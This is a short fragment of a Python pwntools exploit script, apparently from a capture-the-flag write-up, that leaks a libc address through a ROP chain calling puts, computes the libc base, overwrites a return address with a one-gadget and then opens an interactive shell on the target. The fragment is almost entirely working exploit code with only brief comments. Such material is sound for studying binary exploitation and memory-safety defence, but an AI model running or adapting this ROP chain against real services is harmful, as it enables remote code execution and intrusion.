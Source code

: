 ```

sendVal(popRdi)
sendVal(putsGot)
sendVal(putsPlt)
sendVal(startMain)

# Send done so our code executes
target.sendline('done')

# Print out the target output
print target.recvuntil('BON VOYAGE!\n')

# Scan in, filter out the libc infoleak, calculate the base
leak = target.recv(6)
leak = u64(leak + "\x00"*(8-len(leak)))
base = leak - libc.symbols['puts']

print "libc base: " + hex(base)

# Fill up the space between the start of our input and the return address
# For the second round of exploiting the bug
for i in xrange(7):
    sendVal(0xdeadbeefdeadbeef)

# Overwrite the return address with a onegadget
sendVal(base + oneShot)

# Send done so our rop chain executes
target.sendline('done')

target.interactive()
```
